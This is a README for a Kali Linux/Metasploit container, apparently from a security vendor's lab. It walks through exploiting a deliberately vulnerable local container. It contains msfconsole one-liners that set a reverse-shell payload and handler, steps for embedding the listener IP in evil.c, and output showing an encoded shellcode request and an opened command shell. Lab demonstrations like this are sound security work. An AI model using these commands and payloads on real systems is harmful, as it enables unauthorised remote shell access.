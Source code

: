 # kali-metasploit
Containerized Kali Linux with Metasploit Framework installed. Repo is designed to install Polyverse custom modules.

## Build
```
pv build docker
```

## Usage
```
docker run -it polyverse/kali-metasploit msfconsole
```

## Example
You can use the `-x` switch with msfconsole and then specify all the msf commands you want to run in a single double-quoted argument.
```
docker run -it -p 5555:5555 polyverse-internal.jfrog.io/kali-metasploit msfconsole -x "use multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST $(docker run -it -p 5555:5555 polyverse-internal.jfrog.io/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'); set LPORT 5555; exploit"
```

### c-exploit.sh
1. In this repo, perform "pv build -r polyverse-internal.jfrog.io docker". This will create the Docker container image "polyverse-internal.jfrog.io/kali-metasploit".
2. `cd ..` to move up a folder and then `git clone https://github.com/polyverse-security/c-exploit.git`. If you've already cloned, just go to the folder and `git pull`.
3. Modify evil.c line `#define IPADDR "\xac\x11\x00\x03"` with the hex value representation of the results from `docker run -it polyverse-internal.jfrog.io/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'` This is the IP address of the kali-metasploit container -- the target for the reverse shell.
4. `pv build docker` to create a new version of `polyverse/c-exploit`.
5. `cd ../kali-metasploit` to get back to the original folder.
6. In one terminal window, launch `docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit`
7. In another terminial window, run the `./c-exploit.sh` script. You can look at the script to see what it's doing, but it's basically calling the `kali-metasploit` container with sub-scripts to determine ip addresses; it also runs `msfconsole` with the `-x` option that allows you to specify all the arguments for the metasploit module in a single command line.

This is what you should see in the c-exploit window:

```
$ docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Aug 15 07:16:40.745028 2017] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.10 (Debian) PHP/7.1.8 configured -- resuming normal operations
[Tue Aug 15 07:16:40.745097 2017] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
172.17.0.1 - - [15/Aug/2017:07:17:01 +0000] "GET /evil.php HTTP/1.1" 200 581 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

And this is what you should see in the kali-metasploit window:

```
$ ./c-exploit.sh 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.15.5-dev                          ]
+ -- --=[ 1675 exploits - 959 auxiliary - 294 post        ]
+ -- --=[ 489 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

RHOST => 192.168.0.15
RPORT => 8080
payload => linux/x86/shell_reverse_tcp
LHOST => 172.17.0.3
LPORT => 5555
[*] Started reverse TCP handler on 172.17.0.3:5555 
[*] start exploit...
[*] YWFhYWFhYWFhYWFhYWFhYWEw5v%2F%2F%2F38AAEgxwEgx%2F0gx9kgx0k0xwGoCX2oBXmoGWmopWA8FSYnASDH2TTHSQVLGBCQCZsdEJAIVs8dEJASsEAEfSInmahBaQVBfaipYDwVIMfZqA15I%2F85qIVgPBXX2SDH%2FV1deWki%2FLy9iaW4vc2hIwe8IV1RfajtYDwViYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiAA%3D%3D"
[*] Command shell session 1 opened (172.17.0.3:5555 -> 172.17.0.2:56998) at 2017-08-15 07:17:02 +0000
[*] done exploit.... 
```

At this point, you should have a reverse shell in the kali-metasploit window into the c-exploit container.
